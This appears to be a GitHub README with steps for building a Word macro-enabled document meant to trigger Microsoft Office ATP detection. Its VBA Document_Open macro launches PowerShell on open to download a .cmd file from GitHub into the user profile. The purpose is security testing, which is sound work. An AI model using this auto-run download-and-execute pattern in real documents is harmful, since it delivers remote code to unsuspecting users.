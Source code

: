 # Trigger Office ATP using Word macro

1. Open ```%AppData%\Microsoft\Templates\Normal.dotm```
2. Open **Visual Basic Editor** with ```Alt+F11```
3. Double-click **ThisDocument** under **Project (Document1)** to open the macro editor
4. Paste in the example Macro below
5. At the top of Visual Basic Editor, select **Save Document1** and select type as **Word Macro-Enabled Document**
6. This should be sufficient to trigger Office ATP, but if you would like to test then you can double-click **.docm** - this will trigger a download from GitHub, execute as a batch file, and open a message box.

```
Private Sub Document_Open()

Dim com As String
Dim des As String
Dim path As String

com = "powershell -noexit -Command (Invoke-WebRequest 'https://github.com/milesgratz/Microsoft365Misc/blob/master/TriggerOfficeATP_mkdir_example.cmd' -OutFile "
des = Environ("USERPROFILE")
path = com & des & "\\TriggerOfficeATP_mkdir_example.cmd)"

Shell ("powershell -noexit -Command " & path)
MsgBox "This document is running a macro to try to trigger Defender ATP... check your userprofile for a created file...."
End Sub
```

## References

https://emptydc.com/2019/08/02/what-does-office-atp-safe-attachments-actually-block/

## Credits
Largely ~~stolen~~ inspired by [Jan Geisbauer's example on emptydc.com](https://emptydc.com/2019/08/02/what-does-office-atp-safe-attachments-actually-block/) project.  

